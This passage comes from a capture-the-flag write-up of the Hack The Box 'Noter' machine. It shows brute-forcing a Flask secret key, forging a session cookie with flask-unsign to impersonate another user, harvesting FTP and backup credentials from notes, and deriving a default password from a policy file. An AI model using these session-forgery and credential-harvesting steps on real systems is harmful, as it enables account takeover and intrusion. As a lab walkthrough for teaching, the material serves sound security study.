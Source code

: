 [*] Session decodes to: {'logged_in': True, 'username': 'yeeb'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17024 attempts
b'secret123'
```

Forging a new cookie/session token for the ```blue``` user account:

```
┌──(kali㉿kali)-[~/htb/noter]
└─$ /home/kali/.local/bin/flask-unsign  --sign  --legacy --secret 'secret123' --cookie "{'logged_in': True, 'username': 'blue'}"
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yq-RzA.zCyvt_2gliXzCuiWJFTsyka_2F4
```
By editing and switching out the session cookie in chrome's cookie storage or in Burp directly, we now can sign in and access the notes of ```blue```.

### Notes
#### Note #1 
Noter Premium Membership
Written by ftp_admin on Mon Dec 20 01:52:32 2021

```

Hello, Thank you for choosing our premium service. Now you are capable of
doing many more things with our application. All the information you are going
to need are on the Email we sent you. By the way, now you can access our FTP
service as well. Your username is 'blue' and the password is 'blue@Noter!'.
Make sure to remember them and delete this.  
(Additional information are included in the attachments we sent along the
Email)  
  
We all hope you enjoy our service. Thanks!  
  
ftp_admin
```

#### Note #2

```
* Delete the password note  
* Ask the admin team to change the password
```

| Username  |  Password |
|---|---|
| blue  | blue@Noter!  |
| ftp_admin  |   |

### FTP Access

With the user credentials from the notes, we can login on FTP service as ```blue``` and download the ```passwordpolicy.pdf```.

With the password policy we can craft the default password for the ```ftp_admin``` user and download ```app backups``` from the FTP share.
| Username  |  Password |
|---|---|
| ftp_admin  |  ftp_admin@Noter! |


### Application Backups

From the backup files we can extract some DB credentials:
| Username  |  Password |
|---|---|
```